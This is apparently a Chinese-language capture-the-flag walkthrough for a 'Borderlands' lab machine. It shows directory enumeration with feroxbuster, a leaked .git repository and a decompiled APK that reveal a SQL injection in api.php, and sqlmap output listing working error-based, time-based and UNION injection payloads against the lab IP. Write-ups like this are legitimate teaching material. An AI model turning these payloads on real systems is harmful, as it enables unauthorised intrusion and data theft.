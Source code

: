 ```bash
root@ip-10-10-148-104:~/borderlands# feroxbuster  -u http://10.10.185.102/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html

404      GET        7l       13w      178c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        7l       11w      178c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        9l       85w    15227c http://10.10.185.102/index.php
302      GET        0l        0w        0c http://10.10.185.102/home.php => index.php
200      GET      364l     2694w    89151c http://10.10.185.102/Context_White_Paper_Pen_Test_101.pdf
200      GET        1l        3w       15c http://10.10.185.102/api.php
200      GET     2292l    14163w   943202c http://10.10.185.102/CTX_WSUSpect_White_Paper.pdf
200      GET      928l     4779w    80534c http://10.10.185.102/info.php
200      GET        0l        0w        0c http://10.10.185.102/functions.php
200      GET     3965l    21467w  1412748c http://10.10.185.102/Context_Red_Teaming_Guide.pdf
200      GET     7887l    42576w  3866144c http://10.10.185.102/mobile-app-prototype.apk
200      GET     5158l    80691w  1610299c http://10.10.185.102/Glibc_Adventures-The_Forgotten_Chunks.pdf
200      GET        0l        0w  1963179c http://10.10.185.102/Demystifying_the_Exploit_Kit_-_Context_White_Paper.pdf
200      GET        9l       85w    15227c http://10.10.185.102/
[####################] - 69s   882224/882224  0s      found:12      errors:4      
[####################] - 69s   882184/882184  12869/s http://10.10.185.102/
```

- 查看四个 PDF 也没有发现什么
- 从端口扫描结果中发现存在 `.git` 泄露,下载发现就是网站目录
- 发现一个 apk 程序将其下载到本地

对其进行分析:

- 查看 `.git` 文件这是网站的源码文件, 通过对其进行分析, 我发现在 `api.php` 存在 sqli 漏洞, 所以我们可以借此来实现 sqli 注入
- 对于 `apk` 文件 , 可以前往  [Decompilers online](http://www.javadecompilers.com/) 进行反编译, 我们可以在其中的 [Main2Activity.java](http://Main2Activity.java) 中发现上面的 sqli 漏洞

对于 sqli 漏洞我们首先需要构造链接, 因为从代码分析角度发现其后端会校验 apikey, 所以构造 url

```bash
http://10.10.201.64/api.php?documentid=1&apikey=WEBLhvOJAH8d50Z4y5G5
```

- 进行 sqli 漏洞利用
    - 读取到一个 user 表其中得到一个用户账号, 虽然可以解密但是没有什么用
    - 这里允许我们使用 sqli 来获取一个 Shell

```bash
root@ip-10-10-235-60:~# sqlmap -r borderlands/sql.txt --risk 3 --level 3
---
Parameter: #1* (URI)
    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: http://10.10.201.64:80/api.php?documentid=(SELECT 2519 FROM(SELECT COUNT(*),CONCAT(0x71786b6a71,(SELECT (ELT(2519=2519,1))),0x7170627171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&apikey=WEBLhvOJAH8d50Z4y5G5

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: http://10.10.201.64:80/api.php?documentid=(CASE WHEN (5839=5839) THEN SLEEP(5) ELSE 5839 END)&apikey=WEBLhvOJAH8d50Z4y5G5

    Type: UNION query
    Title: Generic UNION query (random number) - 3 columns
    Payload: http://10.10.201.64:80/api.php?documentid=-2327 UNION ALL SELECT 8036,CONCAT(0x71786b6a71,0x4b73444c796c6a574b7244796e744f435745714a786943574c6c73684872496b714670695479716d,0x7170627171),8036-- OiiK&apikey=WEBLhvOJAH8d50Z4y5G5
---
```